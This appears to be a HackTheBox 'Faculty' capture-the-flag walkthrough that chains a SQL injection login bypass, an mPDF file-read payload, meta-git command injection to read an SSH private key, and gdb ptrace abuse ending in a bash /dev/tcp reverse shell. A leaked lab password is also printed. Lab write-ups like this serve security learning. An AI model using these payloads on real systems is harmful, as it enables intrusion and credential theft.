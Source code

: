 # HackTheBox Faculty Machine Walkthrough

<img src="/assets/images/hackthebox/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried admin/admin as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/bypass-login.png)

![](/assets/images/hackthebox/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/home/emperor10/Pictures/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/root.png)